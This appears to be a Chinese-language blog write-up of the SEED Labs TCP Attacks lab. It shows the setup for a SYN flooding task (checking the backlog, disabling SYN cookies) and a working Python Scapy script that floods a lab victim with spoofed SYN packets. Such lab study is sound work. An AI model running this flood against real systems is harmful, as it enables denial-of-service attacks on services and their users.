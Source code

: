 ```yaml
---
layout:     post   				    
title:      SeedLab2.0 TCP Attacks				
subtitle:   
date:       2022-05-26 				
author:     慕念 						
header-img: img/seed_labs_b.png	
catalog: true 						
tags:								
    - SeedLab
---
```




![image-20220526133546461](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330174.png)

## Task 1: SYN Flooding Attack

首先通过命令`sysctl net.ipv4.tcp_max_syn_backlog`查看系统中设定好的SYN队列的长度是128。（内核参数`net.ipv4.tcp_max_syn_backlog`定义了处于`SYN_RECV`的TCP最大连接数，当处于`SYN_RECV`状态的TCP连接数超过`tcp_max_syn_backlog`后，会丢弃后续的SYN报文。）

![image-20220510193519544](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330849.png)

`sysctl -a | grep syncookies`命令查看`SYN Cookie`对策是否打开，显示`net.ipv4.tcp_syncookies = 1`说明打开了`SYN Cookie`：

![image-20220510194519658](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330994.png)

通过命令`sysctl -w net.ipv4.tcp_syncookies=0`关闭syn cookie:

![image-20220510195135263](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330414.png)



### Task 1.1: Launching the Attack Using Python

查看容器的ID`dockps`，可以看到victim的容器ID是8b3cbd69654b：

![image-20220510200018260](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330037.png)

通过`docksh 8b`进入victim主机，在攻击前先通过`netstat -nat`查看目前网络状态，可以看到只有两个端口处于`LISTEN`状态：

![image-20220510201306679](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012330842.png)

在python代码中补全victim的ip地址和端口号：

```python
#!/bin/env python3

from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip

tcp = TCP(dport=23, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
    
    pkt[TCP].sport = getrandbits(16) # source port
    
    pkt[TCP].seq = getrandbits(32) # sequence number
    
    send(pkt, verbose = 0)
```